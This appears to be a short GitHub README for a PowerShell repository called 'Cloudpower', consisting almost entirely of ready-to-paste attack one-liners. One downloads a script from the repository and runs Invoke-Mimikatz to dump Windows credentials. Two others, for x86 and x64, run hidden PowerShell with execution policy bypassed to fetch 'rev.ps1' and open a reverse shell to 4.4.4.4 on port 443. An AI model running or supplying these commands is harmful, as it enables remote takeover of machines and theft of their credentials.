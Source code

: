 # Cloudpower
test for interest


# Help for Invoke-mimi:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/Invoke-mimi.ps1'); Invoke-Mimikatz



# Help for rev.ps1:
winx86:

powrshell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"
